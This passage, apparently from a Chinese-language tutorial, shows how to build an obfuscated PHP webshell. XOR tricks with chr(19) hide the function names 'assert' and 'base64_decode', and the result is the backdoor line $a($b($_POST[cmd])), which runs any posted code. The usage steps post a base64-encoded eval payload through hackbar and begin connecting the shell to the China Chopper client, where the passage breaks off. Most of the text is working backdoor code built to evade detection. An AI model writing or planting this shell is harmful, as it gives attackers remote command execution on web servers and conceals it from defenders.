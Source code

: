 
```
for($i=1;$i&lt;=200;$i++)
`{`echo 'chr(19)^chr('.$i.') is:';
echo chr(19)^chr($i);
echo '&lt;br&gt;';`}`
```

**2. 上面的php代码可得到以chr(19)为基础的关键字的组合形式如下:**<br>

```
chr(19)^chr(114) is:a
chr(19)^chr(96):s
chr(19)^chr(96):s
chr(19)^chr(118) is:e
chr(19)^chr(97) is:r
chr(19)^chr(103) is:t
chr(19)^chr(113):b
chr(19)^chr(114):a
chr(19)^chr(96):s
chr(19)^chr(118) is:e
chr(19)^chr(37) is:6
chr(19)^chr(39) is:4
chr(19)^chr(76) is:_
chr(19)^chr(119) is:d
chr(19)^chr(118) is:e
chr(19)^chr(112) is:c
chr(19)^chr(124) is:o
chr(19)^chr(119) is:d
chr(19)^chr(118) is:e
```

**3. 组合**<br>

```
$a=(chr(19)^chr(114)).(chr(19)^chr(96)).(chr(19)^chr(96)).(chr(19)^chr(118)).(chr(19)^chr(97)).(chr(19)^chr(103)) ;
$b=(chr(19)^chr(113)).(chr(19)^chr(114)).(chr(19)^chr(96)).(chr(19)^chr(118)).(64).(chr(19)^chr(76)).(chr(19)^chr(119)).(chr(19)^chr(118)).(chr(19)^chr(112)).(chr(19)^chr(124)).(chr(19)^chr(119)).(chr(19)^chr(118));
$a($b($_POST[cmd]));
```

**4. 用法**

eg.

在hackbar中post:

```
cmd=ZXZhbCgnZWNobyAxO3BocGluZm8oKTsnKQ==
```

其中ZXZhbCgnZWNobyAxO3BocGluZm8oKTsnKQ==是eval('echo 1;phpinfo();')的base64编码的结果

如果要执行更复杂的功能可通过以下步骤:

a)在菜刀中新加webshell的url和对应密码
